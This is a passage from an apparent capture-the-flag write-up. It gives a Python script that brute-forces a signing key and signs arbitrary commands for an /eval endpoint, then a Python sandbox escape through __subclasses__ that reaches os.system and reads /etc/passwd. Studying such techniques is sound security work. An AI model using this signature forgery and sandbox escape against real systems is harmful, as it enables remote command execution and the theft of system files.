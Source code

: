 ```python


def generate_payload(sk, expr):
    sig = sign(sk, str.encode(expr))
    response = { 'expr': expr, 'sig': sig.decode() }
    print("Payload for /eval:")
    print(json.dumps(response, sort_keys=True, indent=2))


if __name__ == "__main__":

    if len(sys.argv) < 4:
        print("Usage: {} <samplefile> <randomsfile> <command>".format(sys.argv[0]))
        sys.exit(0)

    sample_file = sys.argv[1]
    randoms_file = sys.argv[2]
    cmd = sys.argv[3]

    if not os.path.isfile(randoms_file):
        print("[+] Generating random numbers...")
        randoms = generate_randoms(10000)
        print("Number of possible random numbers: {}".format(len(randoms)))

        print("[+] Writing random numbers to file...")
        write_randoms(randoms, randoms_file)

    else:
        print("[+] Reading random numbers...")
        randoms = read_randoms(randoms_file)
        print("Number of possible random numbers: {}".format(len(randoms)))

    print("[+] Reading sample...")
    sample = read_sample(sample_file)
    print(sample)

    print("[+] Bruteforcing signature...")
    sk = bruteforce(sample, randoms)

    print("[+] Signing payload...")
    generate_payload(sk, cmd)
```

Bypassing the `eval` sandbox looked like a nightmare first but worked after a few attempts.

It is neither possible to use built-in stuff such as `open` nor to use `__import__("module")`. However, basic datatypes such as lists, tuples, etc do work. Therefore, it is possible to walk the class hierarchy up, find an object that has a `_module` attribute and access the builtins by using a technique described in [this excellent blog post](https://gynvael.coldwind.pl/n/python_sandbox_escape):

```python
for c in {}.__class__.__base__.__subclasses__():
        if c.__name__ == "catch_warnings":
                b = c()._module.__builtins__
                m = b['__import__']('os')
                m.system("cat /etc/passwd")
```
